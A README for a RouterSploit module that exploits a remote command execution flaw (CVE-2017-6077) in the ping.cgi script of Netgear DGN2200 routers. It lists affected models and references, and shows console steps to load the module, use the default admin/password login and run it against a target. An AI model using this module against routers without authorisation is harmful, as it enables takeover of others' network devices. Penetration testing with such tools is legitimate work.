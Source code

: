 # Netgear DGN2200 RCE

## Description
Exploits Netgear DGN2200 RCE vulnerability in the ping.cgi script

## Authors
* SivertPL # vulnerability discovery
* Josh Abraham <sinisterpatrician[at]google.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/41394/](https://www.exploit-db.com/exploits/41394/)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6077](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6077)

## Vulnerable devices
* Netgear DGN2200v1
* Netgear DGN2200v2
* Netgear DGN2200v3
* Netgear DGN2200v4

## Usage
```
rsf > use exploits/netgear/dgn2200_ping_cgi_rce
rsf (Netgear DGN2200 RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   login        admin                Username
   password     password             Password


rsf (Netgear DGN2200 RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Netgear DGN2200 RCE) > run
[*] Running module...
```
